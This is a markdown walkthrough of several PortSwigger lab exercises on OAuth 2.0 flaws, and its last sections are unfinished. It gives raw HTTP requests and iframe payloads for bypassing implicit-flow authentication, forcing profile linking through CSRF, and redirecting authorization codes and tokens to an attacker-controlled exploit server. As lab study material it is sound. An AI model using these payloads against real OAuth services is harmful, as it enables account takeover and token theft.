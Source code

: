 # OAuth 2.0 authentication vulnerabilities

### >> 1. Authentication bypass via OAuth implicit flow
> This lab uses an OAuth service to allow users to log in with their social media account. Flawed validation by the client application makes it possible for an attacker to log in to other users' accounts without knowing their password. To solve the lab, log in to Carlos's account. His email address is carlos@carlos-montoya.net. You can log in with your own social media account using the following credentials: wiener:peter.`

Solution: 
- Change the payload to reflect the email address and username of Carlos
````http
POST /authenticate HTTP/1.1
Host: ac2e1fea1e94ca5bc1979089008c00ce.web-security-academy.net
Cookie: session=AYlXg9S3SS3Yb7OjYfXNTGl8gFqgRvdt
Content-Length: 111
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="101"
Accept: application/json
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Origin: https://ac2e1fea1e94ca5bc1979089008c00ce.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://ac2e1fea1e94ca5bc1979089008c00ce.web-security-academy.net/oauth-callback
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"email":"carlos@carlos-montoya.net","username":"carlos","token":"tY2Y8c57C6kHCy8X3BxnE4Hm3YoJyeOfMuhjlkFSQeb"}
````

### >> 2. Lab: Forced OAuth profile linking

>> This lab gives you the option to attach a social media profile to your account so that you can log in via OAuth instead of using the normal username and password. Due to the insecure implementation of the OAuth flow by the client application, an attacker can manipulate this functionality to obtain access to other users' accounts. To solve the lab, use a CSRF attack to attach your own social media profile to the admin user's account on the blog website, then access the admin panel and delete Carlos. The admin user will open anything you send from the exploit server and they always have an active session on the blog website. You can log in to your own accounts using the following credentials: Blog website account: wiener:peter Social media profile: peter.wiener:hotdog

- The request sends the authorization code to the /oauth-login `redirect_uri`
- There is no `state` parameter in the oauth, so it might be vulnerable to CSRF
````
https://oauth-ac4e1f2d1eaf72afc0ae569802f400e3.web-security-academy.net/auth?client_id=j2ba7uqsy1y35kw1wmd5o&redirect_uri=https://ac0b1f681ee77200c0b65677005800f5.web-security-academy.net/oauth-login&response_type=code&scope=openid%20profile%20email
````

- Run the first login complete and then click to attach a social profile again, but now with interception on on burp
- Drop this request and copy the URL; perform logout
- Create a iframe object and delivery it to the victm using the Exploit server
````html
<iframe src="https://ac0b1f681ee77200c0b65677005800f5.web-security-academy.net/oauth-linking?code=LTpkSauiz5Y_iiFdFkmU7jTvtADFySL_sOGqSWMgysp"></iframe>
````
- Click now in Login with Social Media and delete the Carlos user to complete the lab

### >> 3. Lab: OAuth account hijacking via redirect_uri

>> This lab uses an OAuth service to allow users to log in with their social media account. A misconfiguration by the OAuth provider makes it possible for an attacker to steal authorization codes associated with other users' accounts.  To solve the lab, steal an authorization code associated with the admin user, then use it to access their account and delete Carlos. The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service. You can log in with your own social media account using the following credentials: wiener:peter.

- There is a redirect_url vulnerability where you can change the destination of the callback.

````http
GET /auth?client_id=ezdeqti0mlvmnntgt5fcu&redirect_uri=https://exploit-ac2b1fd61eca7273c0797dda01610022.web-security-academy.net&response_type=code&scope=openid%20profile%20email HTTP/1.1
Host: oauth-ac3a1f561e1b7240c0f97dcb023a00dd.web-security-academy.net
Cookie: _session=YqBOphL7KtRbtBcp4cgil; _session.legacy=YqBOphL7KtRbtBcp4cgil
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="101"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Referer: https://acad1f4d1e6072bec0507d00006d00e4.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


````

- Insert a iframe object with the redirect_url changed

````html
<iframe src="https://oauth-ac3a1f561e1b7240c0f97dcb023a00dd.web-security-academy.net/auth?client_id=ezdeqti0mlvmnntgt5fcu&redirect_uri=https://exploit-ac2b1fd61eca7273c0797dda01610022.web-security-academy.net&response_type=code&scope=openid%20profile%20email"></iframe>
````

- The callback returns a code to the webserver (controlled by the attacker)

````apache
172.31.30.114   2022-05-06 17:36:28 +0000 "GET /?code=E-byTvzsUdz-fhc2hWBYqFs7mJiEf2OvWchcO2dEEVL HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36"
````

- Use the code in a new login session

````http
GET /oauth-callback?code=E-byTvzsUdz-fhc2hWBYqFs7mJiEf2OvWchcO2dEEVL HTTP/1.1
Host: acad1f4d1e6072bec0507d00006d00e4.web-security-academy.net
Cookie: session=FEmgoUPOnicODVY4VMMdZRbz8ozTJ570
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="101"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Referer: https://acad1f4d1e6072bec0507d00006d00e4.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


````

- And delete the user Carlos to complete the exercise

### >> 4. Lab: Stealing OAuth access tokens via an open redirect

````
GET /auth?client_id=q7trlt3x9g52oztmwth38&redirect_uri=https://acc51f911fc90fa2c0cf642f00de002a.web-security-academy.net/oauth-callback&response_type=token&nonce=1051619115&scope=openid%20profile%20email HTTP/1.1
````

- Encode as URL
````
/oauth-callback
%2f%6f%61%75%74%68%2d%63%61%6c%6c%62%61%63%6b
````

- 
````
GET /auth?client_id=q7trlt3x9g52oztmwth38&redirect_uri=https://acc51f911fc90fa2c0cf642f00de002a.web-security-academy.net%2f%6f%61%75%74%68%2d%63%61%6c%6c%62%61%63%6b@exploit-ac531ff11f6f0f8bc0d7645701760069.web-security-academy.net&response_type=token&nonce=1051619115&scope=openid%20profile%20email HTTP/1.1
````




### >> 5.
